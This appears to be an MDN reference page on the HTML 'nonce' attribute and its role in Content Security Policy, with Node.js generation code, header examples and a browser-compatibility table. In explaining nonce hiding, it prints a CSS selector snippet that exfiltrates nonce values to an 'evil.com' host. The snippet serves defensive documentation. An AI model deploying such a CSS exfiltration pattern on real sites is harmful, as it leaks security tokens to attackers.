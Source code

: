 nonce
=====

The `nonce` [global attribute](../global_attributes) is a content attribute defining a cryptographic nonce ("number used once") which can be used by [Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) to determine whether or not a given fetch will be allowed to proceed for a given element.

Description
-----------

The `nonce` attribute is useful to allow-list specific elements, such as a particular inline script or style elements. It can help you to avoid using the [CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) `unsafe-inline` directive, which would allow-list *all* inline scripts or styles.

Note: Only use `nonce` for cases where you have no way around using unsafe inline script or style contents. If you don't need `nonce`, don't use it. If your script is static, you could also use a CSP hash instead. (See usage notes on [unsafe inline script](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/script-src#unsafe_inline_script).) Always try to take full advantage of [CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) protections and avoid nonces or unsafe inline scripts whenever possible.

### Using nonce to allow-list a &lt;script&gt; element

There are a few steps involved to allow-list an inline script using the nonce mechanism:

#### Generating values

From your web server, generate a random base64-encoded string of at least 128 bits of data from a cryptographically secure random number generator. Nonces should be generated differently each time the page loads (nonce only once!). For example, in nodejs:

    const crypto = require('crypto');
    crypto.randomBytes(16).toString('base64');
    // '8IBTHwOdqNKAWeKl7plt8g=='

#### Allow-listing inline script

The nonce generated on your backend code should now be used for the inline script that you'd like to allow-list:

    <script nonce="8IBTHwOdqNKAWeKl7plt8g==">…</script>

#### Sending a nonce with a CSP header

Finally, you'll need to send the nonce value in a [`Content-Security-Policy`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy) header (prepend `nonce-`):

    Content-Security-Policy: script-src 'nonce-8IBTHwOdqNKAWeKl7plt8g=='

### Accessing nonces and nonce hiding

For security reasons, the `nonce` content attribute is hidden (an empty string will be returned).

    script.getAttribute('nonce'); // returns empty string

The [`nonce`](https://developer.mozilla.org/en-US/docs/Web/API/HTMLOrForeignElement/nonce) property is the only way to access nonces:

    script.nonce; // returns nonce value

Nonce hiding helps prevent attackers from exfiltrating nonce data via mechanisms that can grab data from content attributes like this:

    script[nonce~=whatever] {
      background: url("https://evil.com/nonce?whatever");
    }

Specifications
--------------

<table><thead><tr class="header"><th>Specification</th></tr></thead><tbody><tr class="odd"><td><a href="https://html.spec.whatwg.org/multipage/urls-and-fetching.html#attr-nonce">HTML Living Standard<br />
<span class="small">The definition of 'nonce' in that specification.</span></a></td></tr></tbody></table>

Browser compatibility
---------------------

Desktop

Mobile

Chrome

Edge

Firefox

Internet Explorer

Opera

Safari

WebView Android

Chrome Android

Firefox for Android

Opera Android

Safari on IOS

Samsung Internet

`nonce`

Yes

Yes

31

No

Yes

Yes

Yes

Yes

31

Yes

Yes

Yes

`nonce_hiding`

61

79

75

No

48

No

See [bug 179728](https://webkit.org/b/179728)

61

61

79

45

No

See [bug 179728](https://webkit.org/b/179728)

8.0

See also
--------

-   [`HTMLOrForeignElement.nonce`](https://developer.mozilla.org/en-US/docs/Web/API/HTMLOrForeignElement/nonce)
-   [Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)
-   CSP: [`script-src`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/script-src)

<a href="https://developer.mozilla.org/en-US/docs/Web/HTML/Global_attributes/nonce" class="_attribution-link">https://developer.mozilla.org/en-US/docs/Web/HTML/Global_attributes/nonce</a>
